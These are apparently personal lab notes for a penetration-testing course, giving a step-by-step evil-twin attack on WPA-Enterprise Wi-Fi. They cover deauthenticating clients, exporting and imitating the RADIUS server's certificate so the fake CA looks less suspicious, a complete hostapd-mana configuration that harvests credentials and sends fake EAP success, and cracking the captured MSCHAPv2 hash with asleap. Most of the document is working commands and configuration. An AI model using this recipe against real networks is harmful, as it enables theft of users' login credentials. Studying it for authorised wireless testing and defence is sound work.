 # Attack [Impt]

- Create rogue AP to match setting of target as closely as possible
- Use hostapd-mana to create rogue AP and match target settings
    - used for capturing credentials to crack later
- Need **freeradius** open source RADIUS server.
    - wont need it for RADIUS capabilities
    - contains scripts which help to generate certificates for hostapd-mana
- Exploit misconfiguration of security settings in client devices OR
- The lack of proper certificate set-up on the RADIUS server OR
- Both

1. Put wlan0 interface in monitor mode and the identify channel of target AP and gather its ESSID and BSSID (SSID and mac-addr)
    
    `sudo airodump-ng wlan0mon`
    
    *to scan the environment*
    
    **When AUTH method is MGT, it means WPA Enterprise!!!**
    
    Which aligns with our goal
    
    ![Untitled](Untitled%2039.png)
    
    *note:* 
    
    - *usually not necessary, but we will create certificate similar to the one from the RADIUS server that AP serves to its client*
    - *if skipped and reuse ones we had before instead, should still verify they are valid and regenerate those if they aren’t. The default validity of the certificates is 60 days from the time they were generated.*
    - *check the validity of the cert by using `openssl x509 -in CERT_FILENAME -noout -enddate` replace CERT_FILENAME with .pem or .crt file.*
    
2. Restart capture on same channel as AP. To get certificate, deauth the client using `aireplay-ng`
    
    
3. **Auth** will be done again once the clients disconnects
    
    
4. Once airodump-ng indicates handshake captured, can stop capture. 
    1. *Certificate is usually present and can get the certificate from the enterprise authentication that happened before the handshake.*
    2. Disable monitor mode by running
        
        `sudo airmon-ng stop wlan0mon`
        
    
5. Open the capture file in wireshark and locate server certificate frame.
    
    
6. Use this filter `tls.handshake.type == 11` or `tls.handshake.certificate` to show exact frames where certificate given

1. Look at `Extensible Authentication Protocol > Transport Layer Security` 

1. Open `TLSv1 Record Layer: Handshake Protocol: Certificate` (or similar since TLS version vary)

1. Expand `Handshake Protocol: Certificate`

1. Inside there, can see one or more entries named **Certificate**

1. For each Certificate, can right click and select `Export Packet Bytes` to save data into a file with a `.der` extension

1. Certificates exported are in binary form which can be opened in file manager or can display information about them using OpenSSL thru`openssl x509 -inform der -in CERTIFICATE_FILENAME -text` 

1. Can also convert to .pem format using
    
    `openssl x509 -inform der -in CERTIFICATE_FILENAME -outform pem -out OUTPUT_PEM.crt`
    
    - whenever prompted to add certificate in trusted root certificate store, request should be carefully examined. as it can have serious consequences on security of system

1. Navigate to **/etc/freeradius/3.0/certs** and change settings of **ca.cnf**
    1. Edit `certificate_authority` match CA certificate to appear less sus to clients jic they inspect certificate
    2. Can also edit **server.cnf** to match **ca.cnf**

1. Regenerate dh
    1. `rm dh`
    2. `make` , will not run if dh is not removed
        1. run `make destroycerts` to clean up
    
2. Create hostapd-mana config file under `/etc/hostapd-mana/mana.conf` 
    
    ```bash
    # SSID of the AP
    ssid=Playtronics
    
    # Network interface to use and driver type
    # We must ensure the interface lists 'AP' in 'Supported interface modes' when running 'iw phy PHYX info'
    interface=wlan0
    driver=nl80211
    
    # Channel and mode
    # Make sure the channel is allowed with 'iw phy PHYX info' ('Frequencies' field - there can be more than one)
    channel=1
    # Refer to https://w1.fi/cgit/hostap/plain/hostapd/hostapd.conf to set up 802.11n/ac/ax
    hw_mode=g
    
    # Setting up hostapd as an EAP server
    ieee8021x=1
    eap_server=1
    
    # Key workaround for Win XP
    eapol_key_index_workaround=0
    
    # EAP user file we created earlier
    eap_user_file=/etc/hostapd-mana/mana.eap_user
    
    # Certificate paths created earlier
    ca_cert=/etc/freeradius/3.0/certs/ca.pem
    server_cert=/etc/freeradius/3.0/certs/server.pem
    private_key=/etc/freeradius/3.0/certs/server.key
    # The password is actually 'whatever'
    private_key_passwd=whatever
    dh_file=/etc/freeradius/3.0/certs/dh
    
    # Open authentication
    auth_algs=1
    # WPA/WPA2
    wpa=3 # to indicate both WPA and WPA2
    # WPA Enterprise
    wpa_key_mgmt=WPA-EAP
    # Allow CCMP and TKIP
    # Note: iOS warns when network has TKIP (or WEP)
    wpa_pairwise=CCMP TKIP
    
    # Enable Mana WPE
    mana_wpe=1
    
    # Store credentials in that file
    mana_credout=/tmp/hostapd.credout
    
    # Send EAP success, so the client thinks it's connected
    mana_eapsuccess=1
    
    # EAP TLS MitM
    mana_eaptls=1
    ```
    

1. Create EAP user file referenced in config file, `/etc/hostapd-mana/mana.eap_user`
    
    ```bash
    *     PEAP,TTLS,TLS,FAST
    "t"   TTLS-PAP,TTLS-CHAP,TTLS-MSCHAP,MSCHAPV2,MD5,GTC,TTLS,TTLS-MSCHAPV2    "pass"   [2]
    ```
    
- first column indicates specific user by username or wildcard character
- second column contains protocols allowed for specific users and authentication phase
- third column optional and used for password when specific user mentioned
- forth column [2] indicated that the settings on this line are for phase 2 authentication

1. after configuring both files, run
    
    `sudo hostapd-mana /etc/hostapd-mana/mana.conf`
    

1. once victim attempts to auth to our AP, login attempt is captured
    
    ![Untitled](Untitled%2040.png)
    
2. credentials will be in /tmp/hostapd.credout

1. use `asleap` to crack password hash. Copy and paste output starting with `asleap` and append the wordlist `/usr/share/john/password.lst` to `-W` parameter
    
    `asleap -C ce:b6:98:85:c6:56:59:0c -R 72:79:f6:5a:a4:98:70:f4:58:22:c8:9d:cb:dd:73:c1:b8:9d:37:78:44:ca:ea:d4 -W /usr/share/john/password.lst`
    
    ![Untitled](Untitled%2041.png)